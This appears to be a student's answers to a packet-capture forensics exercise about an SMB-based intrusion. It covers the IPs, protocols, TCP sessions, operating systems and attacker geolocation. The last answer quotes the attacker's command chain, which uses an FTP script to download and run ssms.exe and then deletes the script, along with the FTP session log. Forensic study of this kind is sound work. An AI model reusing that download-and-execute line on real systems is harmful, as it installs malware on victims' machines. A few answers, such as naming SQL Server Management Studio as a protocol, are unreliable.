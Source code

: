 ## Exercise 2

Which IP addresses are involved?
  - 98.114.205.102, 192.150.11.111

What is the duration of the packet capture?
  - 16.2192 seconds

Which application-layer protocols are detected by Wireshark?
  - SMB (Server Message Block Protocol)
  - NetBIOS, Distributed Computing Environemnt, (DCE/RPC), Active Directory Setup

How many TCP sessions are in the file?
  - 5

Identify the attacker’s IP address and location (use a free online tool such as ip2location.com).
  - United States, Pennsylvania	Philadelphia, lat: 39.9523, lng: -75.1638


Check the conversation content in TCP stream #3. Which application-level protocol is used?
  - SQL Server Management Studio

Identify the attacker’s and the victim’s native operating system and version (Hint: check packets 16 and 17)
  - Windows 5.1 (Victim) and Windows 2000 2195 (Attacker)

Identify the script used by the attacker after compromising the system. (Hint: TCP stream 2)
  - Script used:
    ```
    echo open 0.0.0.0 8884 > o&echo user 1 1 >> o &echo get ssms.exe >> o &echo quit >> o &ftp -n -s:o &del /F /Q o &ssms.exe
    ssms.exe
    ```

    ```
    220 NzmxFtpd 0wns j0
      USER 1

    331 Password required
      PASS 1

    230 User logged in.
      SYST

    215 NzmxFtpd
      TYPE I

    200 Type set to I.
      PORT 192,150,11,111,4,56

    200 PORT command successful.
      RETR ssms.exe

    150 Opening BINARY mode data connection
      QUIT

    226 Transfer complete.
    221 Goodbye happy r00ting
    ```
